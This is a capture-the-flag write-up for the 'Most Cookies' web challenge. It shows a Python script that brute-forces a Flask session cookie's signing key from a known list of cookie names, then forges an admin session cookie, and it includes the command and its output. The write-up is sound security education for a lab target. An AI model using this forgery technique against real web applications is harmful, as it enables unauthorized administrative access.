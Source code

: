 # Most Cookies

Category: Web Exploitation </br>
AUTHOR: MADSTACKS

## Description
```
Alright, enough of using my own encryption. Flask session cookies should be plenty secure
```

## The how to

We received the server source code. The most important part for us is the server list of secret keys:
```py
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
"shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", 
"biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", 
"wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", 
"lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
Cookies! Yum. Now again, for the sake of transparency. After some googling around I came by this [article](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce).
</br>
The source code used there is exactly what is needed to solve this challenge. And unlike the author (Luke Paris, great job) we don't have to scrape for the secret keys:
```py
import flask
import hashlib

from sys import argv
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature

cookie = argv[1]

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
"shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", 
"biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", 
"wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", 
"lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

real_secret = ''

for secret in cookie_names:
	try:
		serializer = URLSafeTimedSerializer(
   			secret_key=secret,	
   			salt='cookie-session',
   			serializer=TaggedJSONSerializer(),
   			signer=TimestampSigner,
   			signer_kwargs={
   				'key_derivation' : 'hmac',
   				'digest_method' : hashlib.sha1
   		}).loads(cookie)
	except BadSignature:
		continue

	print(f'Secret key: {secret}')
	real_secret = secret

session = {'very_auth' : 'admin'}

print(URLSafeTimedSerializer(
	secret_key=real_secret,
	salt='cookie-session',
	serializer=TaggedJSONSerializer(),
	signer=TimestampSigner,
	signer_kwargs={
		'key_derivation' : 'hmac',
		'digest_method' : hashlib.sha1
	}
).dumps(session))

```
Then I just got the cookie that was set by the server and ran like this:
```bash
python3 solve.py eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGDN9Q.OQfLsrc3CI1o1FnNcfKIritiSiU
Secret key: chocolate chip
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGDOnQ.7XmRCoG9kNKi2lcgJ11-PXB2SBo
```
Change your cookie value or send a request through python:
</br>

![flag](./flag.png)

</br>